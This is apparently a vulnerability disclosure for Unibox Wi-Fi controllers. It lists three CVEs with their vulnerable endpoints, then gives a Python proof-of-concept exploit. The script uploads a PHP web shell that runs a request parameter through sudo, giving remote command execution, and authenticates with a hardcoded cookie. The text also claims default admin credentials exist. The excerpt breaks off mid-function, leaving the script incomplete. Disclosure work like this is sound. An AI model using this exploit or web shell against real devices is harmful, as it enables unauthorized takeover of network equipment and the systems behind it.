 ### **Vulnerable Instances:**

#### Unibox 0.x - 2.x 

* /network/mesh/edit-nds.php, **[POST] file CVE-2019-3495**
* /tools/ping **[POST] address CVE-2019-3497**

#### Unibox 3.x
* /tools/controller/diagnostic_tools_controller, **[POST] pingIPAddress CVE-2019-3496**

### **Proof of Concept:**

**Note:** *All session IDs and cookies are omitted to limit the damage, any credentials required to exploit the mention vulnerabilities are hardcoded and can be obtained without any sort of authentication as well (O yea, more vulns are still there and yes they have default admin credentials). If product owners are reading this and are concerned about the credibility of POCs, you can put a comment here and I can share the exploit with credentials, but I don't think that would be required anyway.*


> CVE-2019-3495.py

```python
#!/usr/bin/env python
# Exploit Author: Sahil Dhar (Twitter: @0x401)
# Desc: Unibox 2.x Remote Command Execution via Arbitrary file upload Exploit

import requests
import sys
import argparse
import os
import re
import string

from random import sample, randint

filename = ''.join(sample(string.ascii_letters, randint(5,15)))+'.php'

def gen_stagers():
	payload = "<?php echo shell_exec(\"sudo /usr/local/unibox-0.9/scripts/exeCommand.sh '\".$_REQUEST['c'].\"'\"); ?>"
	return payload


def exploit(rhost):
	cookie = {'user': 'unibox', 'pass':'md5(hardcoded_value)'}	
	multipart_data = {
		'sent': (None,'Save Page or Upload File'),
		'file' : (filename,"%s" %(gen_stagers())),
		'contents': (None,'<h1>Welcome to my network</h1>\n<a href="$authtarget">Login to my network!</a>')
	}
	headers = {
	'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0',
	'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
	'Accept-Language': 'en-GB,en;q=0.5'

	}
	url = "http://%s/network/mesh/edit-nds.php" %(rhost)
	response = requests.post(url,
					files=multipart_data,
					verify=False,
					cookies=cookie,
					headers=headers,
					proxies=proxies
```

[0]: http://wifi-soft.com/unibox-controller/